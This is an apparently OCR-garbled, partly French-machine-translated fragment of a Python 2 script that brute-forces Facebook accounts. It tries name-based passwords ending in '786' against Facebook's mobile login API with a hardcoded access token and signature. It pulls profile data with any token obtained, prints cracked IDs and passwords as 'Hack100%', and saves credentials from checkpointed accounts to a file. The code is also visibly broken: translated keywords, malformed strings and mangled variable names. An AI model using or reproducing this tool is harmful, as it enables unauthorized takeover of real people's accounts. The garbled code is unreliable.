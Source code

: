 									                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur				
									                               print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe7 + '\ n'					
									                               oks.append (utilisateur + pass7)
                                                                                               autre:
			                                                                               si 'www.facebook.com' dans q ["error_msg"]:
				                                                                           imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				                                                                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				                                                                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				                                                                           print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe7 + '\ n'
				                                                                           cek = open ("out / super_cp.txt", "a")
				                                                                           cek.write ("ID:" + utilisateur + "Pw:" + pass7 + "\ n")
				                                                                           cek.close ()
				                                                                           cekpoint.append (utilisateur + pass7)           					
								                                       autre:						
										                           pass8 = b ['nom_nom'] + '786'											
			                                                                                   data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & user + password = " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                                                   q = json.load (données)												
			                                                                                   si 'access_token' dans q:		
										                                   x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])
				                                                                                   z = json.loads (x.text)
				                                                                                   imprimer '\ x1b [1; 94m [✓] \ x1b [1; 92mHack100% 💉' '											
				                                                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mNom \ x1b [1; 91m ✯ \ x1b [1; 92m' + b ['nom']											
				                                                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mID \ x1b [1; 91m ✯ \ x1b [1; 92m' + utilisateur										
				                                                                                   print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 91mMot de passe \ x1b [1; 91m✯ \ x1b [1; 92m' + passe8 + '\ n'											
				                                                                                   oks.append (utilisateur + pass8)
                                                                                                           autre:
			                                                                                           si 'www.facebook.com' dans q ["error_msg"]:
				                                                                                       imprimer '\ x1b [1; 94m [❥] \ x1b [1; 94mPoint de contrôle' '
				                                                                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mNom \ x1b [1; 94m ✯ \ x1b [1; 95m' + b ['nom']
				                                                                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mID \ x1b [1; 94m ✯ \ x1b [1; 95m' + utilisateur
				                                                                                       print '\ x1b [1; 94m [• ⚔ •] \ x1b [1; 94mMot de passe \ x1b [1; 94m✯ \ x1b [1; 95m' + passe8 + '\ n'
				                                                                                       cek = open ("out / super_cp.txt", "a")
				                                                                                       cek.write ("ID:" + utilisateur + "Pw:" + pass8 + "\ n")
				                                                                                       cek.close ()
				                                                                                       cekpoint.append (utilisateur + pass8)   	
										                                   autre:					
										                                       pass9 = b ['first_name'] + '786'					
										                                       data = urllib.urlopen ("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email_FR =" & utilisateur + mot de passe = 9 " ) + "& sdk = ios & generate_session_cookies = 1 & sig = 3f555f99fb61fcd7aa0c44f58f522ef6")				
										                                       q = json.load (données)				
										                                       si 'access_token' dans q:		
		                                                                                                               x = requests.get ("https://graph.facebook.com/" + utilisateur + "? access_token =" + q ['access_token'])